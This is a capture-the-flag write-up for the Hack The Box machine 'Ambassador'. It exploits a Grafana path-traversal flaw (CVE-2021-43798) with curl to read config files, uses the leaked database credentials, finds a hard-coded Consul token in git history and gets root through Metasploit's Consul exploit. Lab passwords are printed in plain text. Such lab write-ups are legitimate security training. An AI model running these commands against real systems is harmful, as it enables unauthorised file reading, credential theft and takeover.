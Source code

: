 # [Ambassador](https://app.hackthebox.com/machines/Ambassador)


```bash
nmap -p- --min-rate 10000 10.10.11.183 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,3000,3306 10.10.11.183 -Pn 
```

put image here.


I access to port `3000`, that's `Grafana` application.

![alt text](img/image-1.png)

Let's look at version of `Grafana` is `v8.2.0`.

I found exploit which is [CVE-2021-43798](https://www.exploit-db.com/exploits/50581).

So this vulnerability is `Arbitrary File Read`, that's why we read sensitive files via this exploit

I can do this manually , I mean using `curl` command as below.
```bash
curl --path-as-is curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
```

**Note:** I need to use `--path-as-is` command as because `curl` cannot delete `../` payloads from my URL.

![alt text](img/image-2.png)


From [documentation](https://grafana.com/docs/grafana/latest/setup-grafana/configure-grafana/) of `Grafana`, I see that I need to read config file called `/etc/grafana/grafana.ini` for `Grafana`.

```bash
curl --path-as-is curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini
```

![alt text](img/image-3.png)


I take `admin` user credentials from this file.

![alt text](img/image-4.png)

admin: messageInABottle685427

I login into `Grafana` via this credentials and it worked.

![alt text](img/image-5.png)


On `Grafana` , I see that `MySQL` is running, that's why I need to read this `mysql.yaml` file by exploiting `Arbitrary File Read` vulnerability of `Grafana`.

![alt text](img/image-6.png)

```bash
curl --path-as-is curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/provisioning/datasources/mysql.yaml
```

![alt text](img/image-7.png)


That's `MySQL` credentials, I got already.

grafana: dontStandSoCloseToMe63221!


Let's login into `remote` MySQL database via `mysql` command.
```bash
mysql -h 10.10.11.183 -u grafana
```

![alt text](img/image-8.png)


I dump credentials from `whackywidget` database and `users` table from this database.

![alt text](img/image-9.png)

developer:YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==

This password hash is `base64` encoded, let's crack this via `base64` command.

![alt text](img/image-10.png)

developer: anEnglishManInNewYork027468


user.txt

![alt text](img/image-11.png)


For `Privilege Escalation`, let's upload `pspy64` into our target machine.

First, we need to open http.server.
```bash
python3 -m http.server --bind 10.10.14.9 8080
```

![alt text](img/image-12.png)

Then, we need to download this binary via `wget` command.
```bash
wget http://10.10.14.9:8080/pspy64
```

![alt text](img/image-13.png)

I see that there is `consul` running, it looks like tricky for me, let's search privesc tricks for this.

![alt text](img/image-14.png)


I also looked at `whackywidget` application's directory and try to do research for `.git` folder.

![alt text](img/image-15.png)

Let's look at back commits via `git log` command.
```bash
git log --name-only --oneline
```

![alt text](img/image-16.png)


Let's go to `c982db8` commit via `git checkout` command.
```bash
git checkout c982db8
```

But it doesn't work, let's do `git show` command to see what's new added or deleted.
```bash
git show c982db8
```

![alt text](img/image-17.png)


I can see `X-Consul-Token` which is `hard-coded`.

ACL_Token: bb03b43b-1d81-d62b-24b5-39540ee469b5    


If I run `netstat -ntpl` command, I can see port `8500` which is `Consul API`.

![alt text](img/image-18.png)


I found exploit on `msfconsole` called `exploit/multi/misc/consul_service_exec`.


First, I need to create tunnel between target and my machine, for this, I will use `ssh` command to create `Local Port Forwarding` as below.
```bash
ssh -L 8500:localhost:8500 developer@10.10.11.183
```

![alt text](img/image-19.png)

![alt text](img/image-20.png)


Let's use this exploit on `msfconsole`.

![alt text](img/image-21.png)


root.txt

![alt text](img/image-22.png)